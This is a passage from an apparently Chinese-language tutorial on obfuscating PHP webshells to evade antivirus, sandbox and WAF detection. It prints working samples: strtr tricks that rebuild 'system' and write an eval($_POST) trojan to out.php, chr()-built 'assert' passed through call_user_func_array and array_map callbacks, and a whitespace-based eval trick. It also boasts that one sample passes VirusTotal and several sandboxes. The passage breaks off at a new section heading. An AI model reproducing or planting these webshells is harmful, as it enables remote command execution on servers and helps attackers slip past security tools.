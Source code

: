 首先先读取文件名，从 `976534.php` 文件名中提取出 `976534` ，然后带入函数中就成功返还 `sysTem` 高危函数了，可以配合其他姿势一起使用，达成免杀效果

### 2.3 特殊字符串

主要是通过一些特殊的字符串，来干扰到杀软的正则判断并执行恶意代码（各种回车、换行、null 和空白字符等）

```php
$f = 'hello';
$$z = $_POST['aabyss'];
eval(``.$hello);
```

## 3# 生成新文件绕过

这是我之前写的一个免杀，其实原理也很简单，该 PHP 本身没法执行命令，但是运行后可以在同目录混淆写入一个 WebShell，也是可以进行免杀的：

```php
$hahaha = strtr("abatme","me","em");      //$hahaha = abatem
$wahaha = strtr($hahaha,"ab","sy");       //$wahaha = system（高危函数）
$gogogo = strtr('echo "<?php evqrw$_yKST[AABYSS])?>" > ./out.php',"qrwxyK","al(_PO");
//$gogogo = 'echo "<?php eval(_POST[AABYSS])?>" > ./out.php'
$wahaha($gogogo);  //将一句话木马内容写入同目录下的 out.php 中
```

现在看这个是不是很简单，但是这个可是 VirusTotal 全绿、微步沙箱和百度沙箱都过的哦~

没想到吧~ 其实在这个简单的基础上还可以拓展出来进行高阶免杀操作

## 4# 回调函数绕过

通过回调函数，来执行对应的命令，这里举两个例子：

### 4.1 call\_user\_func\_array()

```php
//ASCII 编码解密后为 assert 高危函数
$f =  chr(98-1).chr(116-1).chr(116-1).chr(103-2).chr(112+2).chr(110+6);
call_user_func_array($f, array($_POST['aabyss']));
```

### 4.2 array\_map()

```php
function fun() {
    //ASCII 编码解密后为 assert 高危函数
    $f =  chr(98-1).chr(116-1).chr(116-1).chr(103-2).chr(112+2).chr(110+6);
    return ''.$f;
}
$user = fun();    //拿到 assert 高危函数
$pass =array($_POST['aabyss']);
array_map($user,$user = $pass );
```

回调函数的免杀早早就被 WAF 盯上了，像这样单独使用一般都没办法免杀，所以一般都是配合其他手法使用

## 5# 可变变量绕过
